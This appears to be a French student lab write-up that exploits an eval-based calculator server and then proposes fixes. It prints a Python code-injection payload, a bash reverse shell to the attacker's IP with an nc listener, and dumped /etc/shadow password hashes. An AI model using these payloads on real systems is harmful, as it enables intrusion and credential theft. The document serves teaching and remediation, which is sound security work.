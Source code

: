 # TP5 : Exploit, pwn, fix

## Sommaire

  - [1. Reconnaissance](#1-reconnaissance)
  - [2. Exploit](#2-exploit)
  - [3. Reverse shell](#3-reverse-shell)
  - [4. Bonus : DOS](#4-bonus--dos)
  - [II. Remédiation](#ii-remédiation)

## 1. Reconnaissance

🌞 **Déterminer**

Le client essaye de se connecter à l'adresse IP 10.1.2.12 et au port 13337.

Sans avoir accès au code source, on pouvait également voir ce qu'il se passe en lançant le client et en regardant les communications avec Wireshark.

🌞 **Scanner le réseau**

[La petit capture Wireshark](./tp5_nmap.pcapng)

Et le petit nmap :
```
[axel@fedora ~]$ sudo nmap -sS 10.33.64.0/20 -p 13337
Nmap scan report for 10.33.66.165
Host is up (0.012s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 56:4C:81:26:BF:C8 (Unknown)

Nmap scan report for 10.33.70.40
Host is up (0.028s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: E4:B3:18:48:36:68 (Intel Corporate)

Nmap scan report for 10.33.76.195
Host is up (0.0090s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 82:30:BF:B6:57:2F (Unknown)

Nmap scan report for 10.33.76.217
Host is up (0.0068s latency).

PORT      STATE SERVICE
13337/tcp open  unknown
MAC Address: 2C:6D:C1:5E:41:6A (Intel Corporate)

Nmap done: 4096 IP addresses (865 hosts up) scanned in 227.73 seconds
```

🌞 **Connectez-vous au serveur**

On met une des IP trouvées par nmap à la place de l'ancienne IP pour que ça marche.

Il s'agit d'une calculatrice "en ligne".

## 2. Exploit

🌞 **Injecter du code serveur**

A mettre dans la zone d'input pour que le serveur me ping.

Il faut aussi modifier le code côté client pour retirer la regex.
```
__import__('os').system('ping -c 1 10.33.79.35')
```

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**


Côté *hacker* :
```
nc -lvnp 9001
```
Ce qu'il faut mettre dans la zone d'input :
```
__import__('os').system('sh -i >& /dev/tcp/10.33.79.35/9001 0>&1')
```
Et **POP** un shell.

🌞 **Pwn**

etc/shadow :
```
cat /etc/shadow
root:$6$Ac2Zned208vSDVSn$wKuS7q/pIYPo90yin8zl6Ocxd/liQd4aCTnzQEwsTQ2feosGAovhMqxFR.oladVr3G8UbXf2/u.OzeDfWM4aq.::0:99999:7:::
bin:*:19469:0:99999:7:::
daemon:*:19469:0:99999:7:::
adm:*:19469:0:99999:7:::
lp:*:19469:0:99999:7:::
sync:*:19469:0:99999:7:::
shutdown:*:19469:0:99999:7:::
halt:*:19469:0:99999:7:::
mail:*:19469:0:99999:7:::
operator:*:19469:0:99999:7:::
games:*:19469:0:99999:7:::
ftp:*:19469:0:99999:7:::
nobody:*:19469:0:99999:7:::
systemd-coredump:!!:19621::::::
dbus:!!:19621::::::
tss:!!:19621::::::
sssd:!!:19621::::::
sshd:!!:19621::::::
systemd-oom:!*:19621::::::
it4:$6$bV62paDqH/ZQSVFb$jiBgcgpkuzmmoZSvvLPwpd4gjwvnKQEWTE119tMNTnICtMcJ6dyPcDCVaTur8j5UQFuxAAM6eTimGdr97Nagh1::0:99999:7:::
```
etc/passwd :
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
systemd-coredump:x:999:997:systemd Core Dumper:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
sssd:x:998:995:User for sssd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
systemd-oom:x:993:993:systemd Userspace OOM Killer:/:/usr/sbin/nologin
it4:x:1000:1000:it4:/home/it4:/bin/bash
```

[ICI](./serveur.py) pour le code du serveur.

Il y a seulement le serveur python et ssh :
```
ss -tupnl
Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                             
tcp   LISTEN 2      1          10.0.3.15:13337      0.0.0.0:*    users:(("python3.9",pid=2312,fd=4))
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=699,fd=3))      
tcp   LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=699,fd=4))
```

## II. Remédiation

🌞 **Proposer une remédiation dév**

Le code utilise la fonction eval qui execute l'input du user, ce qui est très dangereux.

On pourrait à la place utiliser une autre fonction ou la créer soit même qui effectue le calcul.

🌞 **Proposer une remédiation système**

Le user qui fait tourner le serveur est root.
```
whoami
root
```
Il faudrait créer un user spécial pour le serveur qui a uniquement les droits de lancer ce script et écrire dans le fichier de log.

Aussi ça pourrait être sympa de faire tourner tout ça dans un docker container.

Enfin on peut empêcher les connexions sortantes en paramétrant le firewall avec cette commande par exemple :
```
sudo firewall-cmd --permanent --direct --add-rule ipv4 filter OUTPUT 0 -j DROP
```